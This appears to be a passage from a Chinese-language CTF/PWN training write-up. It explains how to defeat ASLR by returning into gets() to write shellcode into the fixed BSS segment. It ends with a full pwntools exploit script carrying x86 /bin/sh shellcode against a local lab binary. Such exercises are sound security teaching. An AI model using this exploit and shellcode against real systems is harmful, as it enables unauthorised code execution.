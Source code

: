 ## 中等难度

通过命令 `sudo sh -c "echo 2 > /proc/sys/kernel/randomize_va_space"`，打开 ASLR。

通过之前的了解，当 ASLR 开启时，堆栈的地址是随机的，而 BSS 的地址是不变的，那么通过 BSS 段可以做一些文章。

PS：BSS（Block Started by Symbol）通常是指用来存放程序中未初始化的全局变量和静态变量的一块内存区域。其特点是可读写，且在程序执行之前会自动清 0。

总体的思路是利用 BSS 段地址不变的特性，构造 payload：`payload=offset*'A'+p32(gets_addr)+p32(bss+0x100)+p32(bss+0x100)`（因为 BSS 段开头部分可能存储一些重要数据，故增加 0x100 来避免影响程序）。第一个 BSS 首地址表示 `gets()` 的返回地址，第二个 BSS 首地址表示 `gets()` 的参数。

那么通过 payload 可知，程序执行时会重新返回到 `gets()` 函数处，调用函数时，相当于先 `Push retaddr` 再 `Jump`，即第一个 BSS 首地址为函数返回地址，再输入 shellcode 作为函数参数，即第二个 BSS 首地址。

使用 gdb 对程序调试，用 vmmap 命令查看 bss 段：

![](/pics/BIN集训/PWN/三/11.png)

记录下 bss 段地址。通过 `objdump -d` 查看 `gets()` 函数地址：

![](/pics/BIN集训/PWN/三/12.png)

两个地址都搞定后，那么就可以写出 exp 了：

```python
from pwn import *
# p = remote('10.21.13.88',1025)
p = process('./7-11')
shellcode="\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
offset=116
bss=0x0804a000
gets_addr=0x08048400
payload=offset*'A'+p32(gets_addr)+p32(bss+0x100)+p32(bss+0x100)
p.sendline(payload)
# gdb.attach(p,'''
# ''') //在运行脚本时可以直接打开gdb进行调试
p.sendline(shellcode)
p.interactive()
```
